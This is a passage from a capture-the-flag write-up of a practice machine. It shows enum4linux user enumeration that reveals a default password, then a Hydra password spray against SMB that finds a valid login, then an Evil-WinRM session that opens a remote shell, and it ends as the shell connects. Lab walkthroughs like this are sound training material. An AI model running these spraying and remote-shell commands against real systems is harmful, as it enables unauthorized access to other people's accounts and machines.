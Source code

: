 ~~~
~~~

We can actually find more information with `enum4linux`, which gives us a very usefull hint about Marko Novak :
~~~
From Enum4linux :
=============================
|   Users on 10.10.10.169   |
=============================
...
index: 0x10a9 RID: 0x457 acb: 0x00000210 Account: marko	Name: Marko Novak
Desc: Account created. Password set to Welcome123!
...
~~~

We may have an account named "marko" with the password "Welcome123!".



## 3- Exploitation
### 3.1- Bruteforcing Credentials
However,  if we try to log in with these creds, it does not work. It must be a “welcome” password that has to be changed when the new user login. And he changed it. However, another user might have forgotten to change it and still has it active.

Let's make a user list “users.txt” and test it on the smb service :

~~~
root@kali:~# hydra -L users.txt -p Welcome123! smb://10.10.10.169
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-05-26 10:34:17
[INFO] Reduced number of tasks to 1 (smb does not like parallel connections)
[DATA] max 1 task per 1 server, overall 1 task, 27 login tries (l:27/p:1), ~27 tries per task
[DATA] attacking smb://10.10.10.169:445/
[445][smb] host: 10.10.10.169   login: melanie   password: Welcome123!
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-05-26 10:34:20
~~~

And we have a winner ! :+1:   
User: <span style="color:green">melanie</span>   
Password: <span style="color:green">Welcome123!</span>


### 3.2- Getting user.txt
It may be possible now to get a shell on the target. We can use `Evil-WinRM` :

~~~
root@kali:~# evil-winrm -i 10.10.10.169 -u melanie -p Welcome123!

Evil-WinRM shell v2.3
Info: Establishing connection to remote endpoint
~~~